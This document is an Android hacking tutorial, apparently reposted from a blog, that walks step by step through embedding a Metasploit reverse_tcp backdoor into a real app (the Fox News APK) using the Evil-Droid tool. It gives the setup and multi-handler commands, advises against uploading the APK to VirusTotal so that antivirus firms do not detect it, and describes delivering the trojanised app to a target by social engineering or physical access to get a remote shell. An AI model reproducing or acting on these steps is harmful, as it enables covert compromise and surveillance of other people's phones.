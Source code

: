 ###**Android Hacking: How to Embed a Backdoor into an Android APK**

Mobile devices--smartphones and tablets--are proliferating around the world and slowly overtaking desktop and laptop machines. These mobile devices generally run either the iOS or the Android operating system, with Android comprising the bulk of all mobile device OS's (82%). Considering the growth of the mobile market and the dominance of the Android operating system, it only makes sense that Android hacking is increasingly becoming the leading edge of hacking. As such, we will spend increasing time and tutorials on Android hacking here at GitHub to prepare you for this eventuality.

 


This is the third entry in Android Hacking series with Setting up a Android Hacking Lab and Android Basics preceding it. I strongly recommend that you look over Android Basics article before proceeding further into this series.

 

### **Step #1 Download and Install Evil Droid**

 

To embed a backdoor into an Android APK, we will be using Evil-Droid. It's a python script developed by Mascerano Bachir that generates a framework for creating and embedding an APK payload to penetrate Android platforms. 

To download the script, you can clone it into your system by entering;

`kali > git clone https://github.com/M4sc3r4n0/Evil-Droid`

 

 Image 2

 
If you get an error message indicating that some of Evil-Droid's dependencies are not available or out-of-date, you may need to upgrade to newer versions of your packages.

` 
kali > apt-get upgrade`

### **Step #2 Give Yourself Execute Permissions**

 

The next step, of course, is to give yourself permission to execute this script. First, navigate to the Evil-Droid directory and then use **chmod** to give yourself execute permission.

` 
kali > cd Evil-Droid`

` 
kali > chmod 775 evil-droid`

 Image 3


###  
**Step #3 Execute Evil Droid**

 

Next, let's execute evil-droid. Evil-droid will check to see whether you have an Internet connection and several pieces of necessary software, including Metasploit.

`kali > ./evil-droid`

 

Image 4

 

_Note_ the bottom warning in RED. Do **NOT** upload the APK to VirusTotal.com as that will trigger an antivirus signature by the AV developers.

### **Step #4 Execute the  Framework**

 

Once evil-droid has successfully located all it's necessary components, you will receive a message like that below asking whether you want to "Execute Framework and services". Click "**Yes**".

 


Image 5
 



### **Step #5 Select Backdoor**

 

You will be greeted by the menu  screen below. You can select any of the backdoors by number. Here we selected "Backdoor APK Original (NEW)".

 

Image 6




### **Step #6 Select IP and Port**

 

Evil-droid will then ask you to set your LHOST (for Metasploit) and display your local IP and Public IP.

 

Image 7

 Then, it will prompt you for your LPORT. Port 4444 is the default port for Metasploit's Meterpreter and other payloads.

 Image 8

 

### **Step #7 Name your Payload**

 

Evil-droid will then ask you to name your payload. Here I named it **GitHUB**, but you can name it whatever pleases you.
 

### **Step #8 Select Your Payload/Listener**

 

Now, we need to select a payload. Evil-droid enables you to use any of the Android payloads from Metasploit including **android/meterpreter/reverse_tcp**. Simply click on the radio button next to the payload you want to embed in the APK.

Image 9



### **Step #9 Download APK and Embed Backdoor**

 

Next, evil-droid prompts us for the APK file we want to embed the backdoor into. Here, I have downloaded the beloved **Foxnews.apk** for embedding our backdoor.

Image 10
 
 

### **Step #10 Select Metasploit Multi-Handler to make a Connection**

In our next step, we need to  tell evil-droid how we are going to connect to the backdoor. Select "Multi-Handler".

 Image 11


We now need to open the multi-handler in Metasploit so that it can "catch" the connection coming back from the embedded payload. 

 
Open Metasploit by entering;

`kali > msfconsole`

Now we need to start the multi-handler and tell Metasploit what IP and port to listen on and which payload to listen for.

`msf > use exploit/multi/handler`

`msf > set PAYLOAD android/meterpreter/reverse_tcp`

`msf > SET LHOST 192.168.1.104`

`msf > set LPORT 4444`

 

Image 12

 

### **Step #11 Deliver the APK to the Target**

 

In this final step, we need to have the APK (with the embedded backdoor) to be installed and executed on the target's Android device. This is where some social engineering skills can prove helpful. You can email the APK or send it via **DropBox** or other file sharing system. If you have physical access to the device, you could simply install it yourself.


Image 13
 
When the target user installs the app to view their "**Fair and Balanced**" FoxNews, it will execute the backdoor and connect back to your system giving you  a meterpreter shell on their android device!
